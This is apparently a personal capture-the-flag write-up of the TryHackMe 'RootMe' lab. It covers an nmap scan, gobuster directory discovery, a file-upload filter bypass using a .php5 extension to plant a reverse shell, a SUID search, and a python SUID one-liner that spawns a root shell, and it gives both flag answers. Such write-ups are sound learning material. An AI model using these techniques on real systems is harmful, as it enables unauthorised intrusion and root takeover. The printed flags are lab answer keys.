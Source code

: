 > Sun 3 Aug 2025
> al3xx

![[s9.png|350]]
# RootMe [Link](https://tryhackme.com/room/rrootme)

## 1. Reconnaissance
### TCP Scan
```bash
sudo nmap -sC -sV -T4 10.10.155.21 -oN nmap/rootMe.txt
```

**Open ports**

| port | service | version                         |
| ---- | ------- | ------------------------------- |
| 22   | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80   | http    | Apache httpd 2.4.29 ((Ubuntu))  |

## 2. Enumeration
### 1. Web Enumeration
- Port **80** is open.
- Visiting the website initially showed nothing interesting.
- Used **Gobuster** to find hidden directories:
```bash
gobuster dir -u 10.10.155.21 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 2>/dev/null
```

result:
```TEXT
/uploads
/css
/js
/panel
```

## 3. Exploitation
- Found a **file upload vulnerability** in the `/panel` route.
- The upload blocks files ending with `.php`.
- Bypassed this by uploading files with `.php5` extension.
- After uploading the reverse shell, accessed it via the `/uploads` directory to get a shell.

## 4. Post-Exploitation
After getting shell access, searched for `user.txt` and found the user flag:
```TEXT
THM{y0u_g0t_a_sh3ll}
```
located at `/var/www/user.txt`.

Checked for SUID files with:
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Found an interesting SUID file:
```bash
266770   3580 -rwsr-sr-x   1 root root 3665768 Aug 4 2020 /usr/bin/python
```

## 5. Privilege Escalation
Since `/usr/bin/python` runs as root with SUID, used it to spawn a root shell:
```bash
/usr/bin/python -c 'import os; os.setuid(0); os.setgid(0); os.system("/bin/bash")'
```

After gaining root, searched for `root.txt` and found the root flag:
```TEXT
THM{pr1v1l3g3_3sc4l4t10n}
```
located at `/root/root.txt`.